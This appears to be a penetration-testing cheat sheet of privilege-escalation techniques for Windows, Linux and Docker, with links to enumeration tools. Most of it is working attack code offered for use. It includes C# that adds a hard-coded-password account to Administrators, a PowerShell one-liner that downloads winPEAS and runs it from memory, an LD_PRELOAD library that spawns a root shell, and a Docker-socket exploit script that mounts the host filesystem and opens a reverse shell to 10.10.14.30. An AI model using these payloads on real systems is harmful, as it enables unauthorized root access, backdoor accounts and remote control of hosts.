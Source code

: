 # Windows
## Privilege Escalation Scripts
- [PrivescCheck [20220608]](https://github.com/itm4n/PrivescCheck)
- [Windows Privilege Escalation Awesome Scripts [20220501]](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## [Priv2Admin](https://github.com/gtworek/Priv2Admin)

## Add a user to the local system - C#
- [Add a user to the local system - C#](https://docs.microsoft.com/en-us/troubleshoot/developer/visualstudio/csharp/language-compilers/add-user-local-system)
```csharp
// "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /target:exe /r:"C:\Windows\Microsoft.NET\Framework\v4.0.30319\System.DirectoryServices.dll" Program.cs

using System;
using System.DirectoryServices;

class Class1
{
    static void Main(string[] args)
    {
        try
        {
            DirectoryEntry AD = new DirectoryEntry("WinNTc://" +
            Environment.MachineName + ",computer");
            DirectoryEntry NewUser = AD.Children.Add("admin", "user");
            NewUser.Invoke("SetPassword", new object[] {"#12345Abc"});
            NewUser.Invoke("Put", new object[] {"Description", "Test User from .NET"});
            NewUser.CommitChanges();
            DirectoryEntry grp;

            grp = AD.Children.Find("Administrators", "group");
            if (grp != null) {grp.Invoke("Add", new object[] {NewUser.Path.ToString()});}
            Console.WriteLine("Account Created Successfully");
            Console.ReadLine();
        }
        catch (Exception ex)
        {
            Console.WriteLine(ex.Message);
            Console.ReadLine();
        }
    }
}
```

## Unquoted Service Paths

### WMIC
```batchfile
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

### PowerShell
```powershell
$result = $null
$result = Get-WmiObject win32_service | Where-Object {($_.PathName -like '* *') -and ($_.PathName -notlike '*"*') -and ($_.PathName -notlike '*C:\Windows*')} | ForEach-Object { Write $_.PathName }
if ($result -ne $null) { Write $result | Sort -Unique } else { Write "Weak services were not found." }
```

### Specific service
```batchfile
sc qc "<service name>"
```

## [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
```powershell
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

# Linux
## LD_PRELOAD
```c
// gcc -fPIC -shared -o shell.so shell.c -nostartfiles
// sudo LD_PRELOAD=/tmp/shell.so <suid_elf_or_scrip>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}
```

## [pspy - unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)

```sh
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 

# place watchers recursively in two directories and non-recursively into a third
./pspy64 -r /path/to/first/recursive/dir -r /path/to/second/recursive/dir -d /path/to/the/non-recursive/dir

# disable printing discovered commands but enable file system events
./pspy64 -p=false -f
```

# Docker
## [exploit-docker-sock.sh](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25)
```sh
#!/bin/bash

# you can see images availables with
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# here we have sandbox:latest

# command executed when container is started
# change dir to tmp where the root fs is mount and execute reverse shell

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.30/12348 0<&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it, name the container peterpwn_root and execute as detached (-d)
curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=peterpwn_root

# start the container
curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/peterpwn_root/start"
```

## [GTFOBins](https://gtfobins.github.io/gtfobins/docker/)
```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Finding some interesting ports
```sh
grep -R "<port>" </opt>
```


